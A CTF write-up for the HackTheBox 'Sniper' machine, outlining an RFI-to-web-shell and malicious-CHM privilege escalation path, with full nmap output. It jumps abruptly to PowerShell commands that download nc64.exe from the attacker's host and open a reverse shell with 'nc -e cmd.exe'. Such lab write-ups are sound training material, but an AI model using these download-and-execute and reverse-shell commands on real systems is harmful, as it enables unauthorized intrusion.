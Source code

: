 ```yaml
---
title: "HackTheBox Writeup: Sniper"
date: 2020-03-26T14:10:39+01:00
tags:
  - hackthebox
  - ctf
  - writeup
showdate: true
toc: true
---
```


I really liked Sniper, I can't say I've ever seen the two attack vectors required for this challenge in any other HTB CTF and both were fun to exploit and take note of, since this is a fairly realistic challenge, my favorite kind.

The challenge begins with the exploitation of an RFI vulnerability that allows a web application to include a PHP page from another host, with that a web shell is opened and credentials for an account are found so a proper reverse shell is started. To escalate privileges a malicious CHM file is crafted and dropped on the box, where a scheduled task running as Administrator opens it giving us access to that account.

![img](/images/writeup-sniper/1.png)

---

## Enumeration

An nmap scan probing all ports for services and running all default NSE scripts only returns a few results, RPC, SMB, and HTTP:
 
```aaa
┌─[baud@parrot]─[~/HTB/sniper]
└──╼ $sudo nmap -sV -sC -p- -oA fullScan -T4 10.10.10.151
[sudo] password for baud: 
Starting Nmap 7.80 ( https://nmap.org ) at 2020-02-26 02:20 CET
Nmap scan report for 10.10.10.151
Host is up (0.041s latency).
Not shown: 65530 filtered ports
PORT      STATE SERVICE       VERSION
80/tcp    open  http          Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Sniper Co.
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
49667/tcp open  msrpc         Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 8h01m53s
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2020-02-26T09:25:03
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 184.42 seconds
```


[localhost]: PS C:\Users\Chris\Documents>
[localhost]: PS C:\Users\Chris\Documents> Invoke-Command -ScriptBlock { IWR http://10.10.14.144/nc64.exe -outfile C:\Users\Chris\Documents\nc64.exe }
[localhost]: PS C:\Users\Chris\Documents> Invoke-Command -ScriptBlock { C:\Users\Chris\Documents\nc64.exe -e cmd.exe 10.10.14.144 9090 }